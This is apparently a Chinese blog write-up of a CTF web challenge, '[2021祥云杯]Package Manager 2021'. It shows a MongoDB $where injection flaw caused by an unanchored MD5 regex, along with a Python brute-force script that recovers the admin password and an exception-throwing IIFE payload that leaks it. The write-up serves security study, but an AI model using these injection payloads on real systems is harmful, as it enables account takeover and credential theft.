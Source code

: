 ```yaml
---
title: '[2021祥云杯]Package Manager 2021'
date: 2024-11-04 22:12:38
tags: 
      - mongodb注入
      - js抛出异常
categories: 刷题笔记
---
```


## [2021祥云杯]Package Manager 2021

## mongodb注入

我们通过schema.ts发现这是一个mangodb数据库

Mongoose是一个让我们可以通过Node来操作MongoDB数据库的模块

**![image-20241105150319480](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051503623.png)**

然后再index中的/auth路由找到了sql注入漏洞

<!--more-->

```js
router.get('/auth', (_, res) => res.render('auth'))

router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				//这里存在sql注入漏洞
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});

```

虽然在token之前要经过checkmd5Regex函数的检测，我们来跟进这个函数

```js
const checkmd5Regex = (token: string) => {
  return /([a-f\d]{32}|[A-F\d]{32})/.exec(token);
}

```

在正则匹配时，没有用^$匹配头部或者尾部，所以存在绕过

## 第一种方法：爆破密码

我们构造token:`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a`使得括号内的值为

```js
this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" || this.password[0]=="a"
```

此时只要或条件成立语句就为真，写个脚本就可以爆出密码啦

```python
import requests
import string

url="http://d8ec246d-507e-4aaa-a226-d318473d31ec.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s%3Ay8Ne8sPLeY55QXmWPyh3WmPiuoDgOp6y.U3VuzJCBxWcb5AWW8CCkPJqnSmYJ1N9EnHvoR%2BBuGho",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        data={
            "_csrf": "YzvJKLZc-4Sp0gfSn-hIRIF4bUZu0nhXy0HU",
            "token": payload
        }
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        # print(r.text)
        if "Found. Redirecting to" in r.text:
            print(payload)
            flag+=j
            print(flag)
            break
```

爆出密码

```
!@#&@&@efefef*@((@))grgregret3r
```

我们用admin账户登录得到flag

![image-20241105152239438](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051522530.png)

## 第二种方法：异常注入

同样的是对auth接口这里逻辑判断，利用了js的抛出异常和IIFE（立即调用函数表达式）来实现

```
token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin
```

逻辑判断语句为：

```
this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()!="aaaaa"
```

这里就是立即执行throw Error(this.password)，后面是!=还是== 字符串的值是什么都无所谓，只要是语法没问题然后语句正常执行，这里强制抛出异常，从源码中可以看到抛出的异常会被渲染出来，然后就能够看到password的值

```javascript
let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin""`).exec()
console.log(docs);
```

![image-20241105152613967](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051526000.png)

参考

https://blog.csdn.net/RABCDXB/article/details/124810618

https://cloud.tencent.com/developer/article/2070199
